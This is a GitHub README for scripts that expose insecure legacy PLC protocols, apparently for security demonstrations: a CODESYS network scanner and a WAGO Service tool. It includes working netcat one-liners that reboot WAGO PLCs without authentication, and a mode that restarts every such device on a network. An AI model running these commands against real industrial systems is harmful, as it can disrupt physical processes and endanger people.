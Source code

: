 ## Description
Tis repo is a collection of tools to highlight the weaknesses of legacy protocol, and to show the importance of a cybersec configuration. 

## scan_codesys.py

This Python script benefits of discovery protocol used by CODESYS 3 (on port 1740) to gather information about PLCs on a network. 
A predefined UDP frame is sent to a broadcast address on port 1740, and answers from PLCs are collected and parsed.
This is a reminder that this port isn't secure, should be disabled. The discover feature is useful but isn't mandatory in order to use CODESYS.

### Usage

`python3 scan_codesys.py 192.168.1.255`

Example of result :

```
IP&nbsp;Address&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Device&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Complete&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Manufacturer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;MAC&nbsp;Address
192.168.1.12&nbsp;&nbsp;&nbsp;PFC300-68415F&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WAGO&nbsp;750-8302&nbsp;PFC300&nbsp;2ETH&nbsp;RS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WAGO&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0030DE684161
192.168.1.4&nbsp;&nbsp;&nbsp;&nbsp;PFC200V3-48117C&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WAGO&nbsp;750-8210&nbsp;PFC200&nbsp;G2&nbsp;4ETH&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WAGO&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0030DE48117C
192.168.1.5&nbsp;&nbsp;&nbsp;&nbsp;0030DE5A9782&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;750-8001&nbsp;Basic&nbsp;Controller&nbsp;100&nbsp;2ETH&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WAGO&nbsp;GmbH&nbsp;&&nbsp;Co.&nbsp;KG&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;37SUN31564010260523873+0000000000000176
```

## wagoservice.py

This Python script uses legacy protocol WAGO Service on port 6626, used by software like WAGO Ethernet Settings or WAGO I/O Check. 
This legacy protocol is unauthenticated. 
WAGO Ethernet Settings can be easily replaced by the Web Based Management, which is secure. 
WAGO I/O Check is used for configuration of I/O modules, but should be used only during the commissionning, ideally when the PLC isn't connected to the network. 
The script sends predefined TCP frame in order to gather information about WAGO PLCs and could be used to reboot the PLC. 
A discover function based on NMAP will WAGO devices with 6626 port open on the specified network.
When a network adress is provided, the reboot function will restart all WAGO devices... Be careful.

### Usage

`python3 wagoservice.py  <command> <address/network>`

where :
- command : info / reboot / discover
- address/network : can be a single IP address or a network in CIDN format (i.e 192.168.1.0/24)

Example and results :
```
python3 wagoservice.py discover 192.68.1.0/24
+---------------------+---------------------+---------------------+---------------------+---------------------+
|&nbsp;IP&nbsp;Address&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;MAC&nbsp;Address&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;PSN&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;SW-VER&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;SN&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|
+---------------------+---------------------+---------------------+---------------------+---------------------+
|&nbsp;192.168.1.1&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;00:30:DE:0A:93:56&nbsp;&nbsp;&nbsp;|&nbsp;750-880&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;01.08.25(16)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;SN20121115T113608-0416146#PFC|0030DE069605&nbsp;|
|&nbsp;192.168.1.2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;00:30:DE:06:96:05&nbsp;&nbsp;&nbsp;|&nbsp;750-8001&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;01.04.02(00)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;SN20230403T202128-1738604#BC|0030DE5A9782&nbsp;|
|&nbsp;192.168.1.3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;00:30:DE:5A:97:82&nbsp;&nbsp;&nbsp;|&nbsp;751-9301&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;04.06.03(28)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;37SUN31564010260470190+0000000002347218&nbsp;|
|&nbsp;192.168.1.4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;00:30:DE:4E:6F:EC&nbsp;&nbsp;&nbsp;|&nbsp;750-8302&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;04.06.01(28)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;37SUN31564010260575922+0000000000001690&nbsp;|
|&nbsp;192.168.1.5&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;00:30:DE:68:41:5F&nbsp;&nbsp;&nbsp;|&nbsp;750-8210&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;04.05.10(27)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;37SUN31564010260429954+0000000000000008&nbsp;|
|&nbsp;192.168.1.6&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;00:30:DE:48:11:7C&nbsp;&nbsp;&nbsp;|&nbsp;750-8217&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;03.10.10(22)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;|&nbsp;37SUN31564010260430577+0000000000003662&nbsp;|
+---------------------+---------------------+---------------------+---------------------+---------------------+
```

## One-liner commands

Also based on WAGO Service protocol, this simple commands can be used to retrieve information or to reboot a WAGO PLC device.
Can be used directly on a WAGO Linux-based PLC.

### Get information
`echo '8812020001000100000000000000000002000801' | xxd -r -p | nc 192.168.1.10 6626`

### Reboot
`echo '8812320001000100000000000000000002000201' | xxd -r -p | nc 192.168.1.10 6626`

# Disclaimer  
This collection of tools is intended solely for legitimate and authorized use in conducting cybersecurity demonstration within a network. Users are required to obtain proper authorization from network owners or administrators before use.

The developer of this program assumes no responsibility for any unauthorized use or any consequences arising from the improper application of this tools. By using this tools, you agree that you have the necessary permissions and you assume all liability associated with its use. Please ensure compliance with all applicable laws and regulations regarding network scanning and cybersecurity practices.